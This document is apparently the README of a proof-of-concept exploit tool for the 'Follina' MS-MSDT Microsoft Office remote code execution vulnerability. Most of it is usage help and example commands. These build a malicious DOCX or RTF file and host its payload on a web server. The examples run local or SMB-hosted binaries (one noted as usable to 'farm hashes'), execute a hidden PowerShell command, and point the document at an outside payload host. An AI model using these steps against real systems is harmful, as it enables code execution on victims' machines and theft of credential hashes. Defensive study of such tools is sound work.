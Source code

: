 # 'Follina' MS-MSDT n-day Microsoft Office RCE

Quick POC to replicate the 'Follina' Office RCE vulnerability for local testing purposes. Running the script will generate the `clickme.docx` payload file in your current working directory, and start a web server with the payload file (`www/exploit.html`). The payload and web server parameters are configurable (see examples).

> ⚠ DO NOT USE IN PRODUCTION LEST YOU BE REGARDED A DUMMY

## Usage:

```
options:
  -h, --help            show this help message and exit

Required Arguments:
  -t {docx,rtf}, --type {docx,rtf}
                        Choose type of payload (RTF, DOCX)
  -m {binary,command}, --mode {binary,command}
                        Execution mode, can be "binary" to load a (remote) binary, or "command" to run an encoded PS
                        command

Binary Execution Arguments:
  -b BINARY, --binary BINARY
                        The full path of the binary to run. Can be local or remote from an SMB share

Command Execution Arguments:
  -c COMMAND, --command COMMAND
                        The encoded command to execute in "command" mode

Optional Arguments:
  -u URL, --url URL     The hostname or IP address where the generated document should retrieve your payload, defaults
                        to "localhost"
  -H HOST, --host HOST  The interface for the web server to listen on, defaults to all interfaces (0.0.0.0)
  -P PORT, --port PORT  The port to run the HTTP server on, defaults to 80
```

## Examples:

```
# Execute a local binary
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe

# On linux you may have to escape backslashes
python .\follina.py -t rtf -m binary -b \\windows\\system32\\calc.exe

# Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -t rtf -m binary -b \\localhost\c$\windows\system32\calc.exe

# Execute an arbitrary powershell command
python .\follina.py -t docx -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

# Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 1.2.3.4

# Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -t rtf -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
```

## Cool peeps

Thanks to [Kevin Beaumont](https://twitter.com/GossiTheDog) for [his original analysis](https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e) of the issue, [@KevTheHermit](https://twitter.com/KevTheHermit) for sharing their poc, and [John Hammond](https://twitter.com/_JohnHammond) for their further work on analysing payload requirements. Additional thanks to [@mkolsek](https://twitter.com/mkolsek) for the template [supporting Office 2019](https://twitter.com/mkolsek/status/1531217733546823681), and [@theluemmel](https://twitter.com/theluemmel) for sharing their version of the payload with me.
